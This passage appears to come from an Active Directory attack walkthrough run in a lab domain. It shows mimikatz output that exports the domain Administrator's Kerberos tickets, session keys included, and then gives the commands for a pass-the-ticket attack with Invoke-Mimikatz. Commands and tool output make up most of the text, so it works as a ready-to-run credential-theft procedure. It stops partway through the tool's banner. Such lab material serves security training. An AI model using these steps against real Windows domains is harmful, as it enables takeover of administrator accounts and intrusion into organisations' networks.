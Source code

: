      ...omitted...

     Authentication Id : 0 ; 303469 (00000000:0004a16d)
     Session           : Interactive from 1
     User Name         : Administrator
     Domain            : BOSSMANBEN
     Logon Server      : WIN-BO2CT95INDP
     Logon Time        : 7/12/2019 4:37:50 PM
     SID               : S-1-5-21-2817836110-3135048609-2922248965-500

             * Username : Administrator
             * Domain   : BOSSMANBEN.LOCAL
             * Password : (null)

            Group 0 - Ticket Granting Service
             [00000000]
               Start/End/MaxRenew: 7/12/2019 4:38:17 PM ; 7/13/2019 2:38:17 AM ; 7/19/2019 4:38:17 PM
               Service Name (02) : LDAP ; WIN-BO2CT95INDP.bossmanben.local ; bossmanben.local ; @ BOSSMANBEN.LOCAL
               Target Name  (02) : LDAP ; WIN-BO2CT95INDP.bossmanben.local ; bossmanben.local ; @ BOSSMANBEN.LOCAL
               Client Name  (01) : Administrator ; @ BOSSMANBEN.LOCAL ( BOSSMANBEN.LOCAL )
               Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
               Session Key       : 0x00000012 - aes256_hmac
                 4050506d21e637246324747b2d8a26a69a195020adc6bb715f19441a80075302
               Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]
               * Saved to file [0;4a16d]-0-0-40a50000-Administrator@LDAP-WIN-BO2CT95INDP.bossmanben.local.kirbi !

            Group 1 - Client Ticket ?

            Group 2 - Ticket Granting Ticket
             [00000000]
               Start/End/MaxRenew: 7/12/2019 4:38:17 PM ; 7/13/2019 2:38:17 AM ; 7/19/2019 4:38:17 PM
               Service Name (02) : krbtgt ; BOSSMANBEN.LOCAL ; @ BOSSMANBEN.LOCAL
               Target Name  (02) : krbtgt ; BOSSMANBEN ; @ BOSSMANBEN.LOCAL
               Client Name  (01) : Administrator ; @ BOSSMANBEN.LOCAL ( BOSSMANBEN )
               Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
               Session Key       : 0x00000012 - aes256_hmac
                 0d397fbecc40d64ac4c5852da47f10f9f757b2db4beaef1e8cdd2bb911ab8605
               Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
               * Saved to file [0;4a16d]-2-0-40e10000-Administrator@krbtgt-BOSSMANBEN.LOCAL.kirbi !
    
     ...omitted...
     ```
     - A krbtgt ticket for the Domain (BOSSMANBEN.LOCAL) Administrator was exported

#### iii. Pass the ticket using Invoke-Mimikatz

1. View the exported tickets:
   ```powershell
   dir $home\Desktop\tickets
   ```
   ```
   ...omitted...
   -a----       12/07/2019   4:53 PM           1611 [0;4a16d]-2-0-40e10000-Administrator@krbtgt-BOSSMANBEN.LOCAL.kirbi
   ...omitted...
   ```
2. Pass the krbtgt ticket:
   ```powershell
   Invoke-Mimikatz -command '"kerberos::ptt [0;4a16d]-2-0-40e10000-Administrator@krbtgt-BOSSMANBEN.LOCAL.kirbi"'
   ```
   ```
     .#####.   mimikatz 2.2.0 (x64) #18362 May 30 2019 09:58:36
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
     '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
   ```